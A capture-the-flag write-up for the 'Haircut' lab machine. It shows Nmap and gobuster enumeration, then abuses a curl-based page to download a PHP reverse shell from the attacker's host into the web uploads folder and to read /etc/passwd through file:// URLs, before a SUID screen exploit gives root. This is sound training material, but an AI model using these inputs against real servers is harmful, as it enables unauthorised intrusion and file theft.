# Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	1.2	[Website](#website)
	
2. [Alternative way](#Alternative-way-to-user-flag)	
3. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>Abusing curl</li>
	<li>SUID privilege escalation</li>
</ul>
</details>

### Enumeration 
**IP Address** 10.10.10.24

#### Nmap
As usual, the initial step at the beginning is running an Nmap. After running one simple command to check all the ports (option -p- of *nmap*), only ports 22 and 80 are open. Then, the next step I usually do, is running a more detailed scan, obtaining the following results:

```shell
sudo nmap -sC -sV -O -p 22,80 10.10.10.24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-01 10:55 EDT
Nmap scan report for 10.10.10.24
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```


#### Website
As it can bee observed, we only have webite without even *robots.txt* file.
While navigatin through the website, it seems quite empty, as it only contains one picture:



After reviewing the source code, nothing is discovered, so it's time for some *fuzzing*.

I am very used to *gobuster* and the syntas I use is the following:


Thanks to *gobuster*, a resource named *exposed.php* is found. It looks like the following image:


It seems like is using something like curl to ask for a web resource. The first thing I thought was *ssrf*, but I wasn´t able to obtain nothing from the *uploads* directory. 
The following try, was leaving empty the input field and clicking "go". After this, the message obtained was this one:



It is obviously using curl. If you try to only write "-- help" and click *go* after that, you will receive the *help* menu of curl. 
So, to summarize, we have a webpage running at a linux server that performs curl request. My first though here is to concatenate commands (in linux it can be done with some metacharacters such as &,| or ;).
Anyways, if you try to use any of these characters, the *exposed.php* will block your request, as the input is sanitized in some way:


After thinking about some options, I figured the following way out to read the some output from commands:


As it can be observed, the '$' character was not limitated, so I created a server at my machine and made some requests in order to obtain, at least, the path.
This leaded me to nowhere, but I was useful in the next step.

Once I was here, I recalled that I was able to use all the options that the curl command has. So what about using the output argument to save a file (a shell, maybe) from my machine into the *Haircut* server?
With the input:
```shell
http://10.10.16.9:8000/php-reverse-shell.php -o php-reverse-shell.php
```
it should be possible to save the file in the server.
However, after doing this, I found that the user running curl had no permissions to write in the actual folder:


I was thinking to write the file in the */tmp* directory, but I had no way to request this file after it. Reviewing my notes, I saw the /uploads/ directory. And, as I had the path in which the command is running, I only had to add the directory:

```shell
http://10.10.16.9:8000/php-reverse-shell.php --output //var/www/html/uploads/php-reverse-shell.php
```

This time it was possible to write the file!
Now the only thing left to obtain a shell is establishing the listener in my machine and making a request from *exposed.php* to:
```
http://localhost/uploads/php-reverse-shell.php 
```

After making this previous request, we have a shell and the user flag:



### Alternative way to user flag

Feel free if you want to skip directly into the [Privesc](#privesc) section. 
While I was reading the curl manual, I found a way to read files with curl. In this machine, this way allows us to read the */etc/passwd* to discover the user directory, and then the user flag.
The input that should be submited in order to get the files is:

```shell
file:///etc/passwd
file:///home/maria/user.txt
```



### Privesc

Right now is time to escalate privileges. As I'have mentioned in other writeups, I usually run some scripts when I have the shell:
- Linpeas/LinEnum
- suid3num
- pspy (just in case I find nothing with the others)

In order to get this files into the machine, I started a server in my kali machine (with python3 as before) and I got them with running *wget* at the Haircut machine.

Both suid3num and Linpeas provides us with this interesting binary (this is the output from suid3num):



Just googling this binary, we find an [exploit](https://www.exploit-db.com/exploits/41154):



This scripts works creating two binary files, and abusing one of the libraries that the binary is using. I couldn´t make the script work by itself, however, I broke it into pieces and went manually step by step. 
I even found this [youtube](https://www.youtube.com/watch?v=RP4hAC96VxQ) guide step by step. 

Finally, after following this guide, we obtain a root shell:


I really recommend watching the video from youtube if you don´t really understand the script, as it is pretty good explained.

And that's all folks, another machine completed. Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 
